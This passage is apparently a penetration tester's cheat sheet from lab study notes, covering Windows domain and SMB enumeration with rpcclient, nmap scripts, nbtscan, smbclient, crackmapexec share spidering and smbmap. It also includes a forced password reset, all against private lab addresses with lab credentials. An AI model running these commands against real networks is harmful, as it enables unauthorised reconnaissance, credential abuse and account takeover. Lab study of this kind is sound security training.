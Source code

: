 >[!code]- Extract usernames to a file
>###### Enumdomusers
>```powershell
>rpcclient -U 'discovery%Start123!' -c 'enumdomusers' 192.168.209.40 | awk -F'[][]' '{print $2}'
>```

>[!code]- Force reset a user's password
>###### setinfo
>```powershell
>setuserinfo2 MOLLY.SMITH 23 'Password123!'
>```
#### SMB

>[!code]- Nmap SMB enumeration
>Script location:
>```bash
>kali@kali:~$ ls -1 /usr/share/nmap/scripts/smb*
>```
>Using a script in a scan:
>```bash
>kali@kali:~$ nmap -v -p 139,445 --script smb-os-discovery 192.168.50.152
>```
>
>___
>
>Discovering hosts running an SMB server:
>```bash
>kali@kali:~$ nmap -v -p 139,445 -oG smb.txt 192.168.50.1-254
>```

>[!code]- nbtscan to find NetBIOS names
>This can reveal NetBIOS names:
>```bash
>kali@kali:~$ sudo nbtscan -r 192.168.50.0/24
>```

>[!code]- List available shares
>Net
>```powershell
>C:\Users\student>net view \\dc01 /all
>```
>smbclient
>```powershell
>smbclient -N -L //192.168.63.205
>smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //192.168.50.205
>smbclient -p 18000 -NL //192.168.63.205  # unusual port
>```
>###### CME
>```powershell
>bubbleman@htb$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
>
># Spider crawl a particular share
>bubbleman@htb$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
>```
>###### smbmap
>```powershell
>bubbleman@htb$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
>```
